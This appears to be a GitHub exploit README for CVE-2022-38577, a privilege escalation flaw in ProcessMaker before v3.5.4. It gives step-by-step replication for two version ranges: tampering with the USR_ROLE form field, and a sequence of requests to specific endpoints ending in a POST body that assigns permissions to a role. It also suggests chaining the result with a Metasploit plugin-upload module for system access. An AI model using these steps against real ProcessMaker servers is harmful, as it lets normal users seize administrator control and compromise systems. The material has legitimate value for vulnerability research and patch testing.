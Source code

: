 # ProcessMaker - User Profile Privilege Escalation
# CVE-2022-38577
ProcessMaker before v3.5.4 was discovered to contain insecure permissions in the user profile page. This vulnerability allows attackers to escalate normal users to Administrators.

\* This exploit can be used with the Metasploit module [(ProcessMaker Plugin Upload)](https://www.rapid7.com/db/modules/exploit/multi/http/processmaker_plugin_upload/) - **exploit/multi/http/processmaker_plugin_upload** to gain system access.

```
Privilege Escalation replication.
for 2.5.0 - 3.0 GA:
    1. Log in as normal user.
    2. Change "USR_ROLE" on post request form when updating profile information to "PROCESSMAKER_ADMIN".
    3. Refresh page to get new role.

for 3.2.1 and before:
    1. Log in as normal user.
    2. Get Role ID by request "/sysworkflow/en/neoclassic/roles/roles_Ajax?request=rolesList&_dc={epoch_time}"
    3. Get Permission ID by request "/sysworkflow/en/neoclassic/roles/data_rolesPermissions?rUID={Role_ID}&type=show"
    4. Update role to escalation privileges using POST Body request:
    POST /sysworkflow/en/neoclassic/roles/roles_Ajax
    request=assignPermissionToRoleMultiple&ROL_UID={Role_ID}&PER_UID={PERMISSION_ID}
```
https://youtu.be/PVaChDG3ZQ0<br/>
[![CVE-2022-38577 : ProcessMaker - User Profile Privilege Escalation](https://img.youtube.com/vi/PVaChDG3ZQ0/0.jpg)](https://www.youtube.com/watch?v=PVaChDG3ZQ0)

### TODO: Optimize code [requests module], and Exception Handling.

Reference:<br />
[x] https://nvd.nist.gov/vuln/detail/CVE-2022-38577<br />
[x] https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-38577<br />
[x] https://packetstormsecurity.com/files/168427/ProcessMaker-Privilege-Escalation.html<br />
[x] https://drive.google.com/file/d/1iP9NYUkYEy_FGMpcnTkUWn8nGcqDT02_/view?usp=sharing<br />

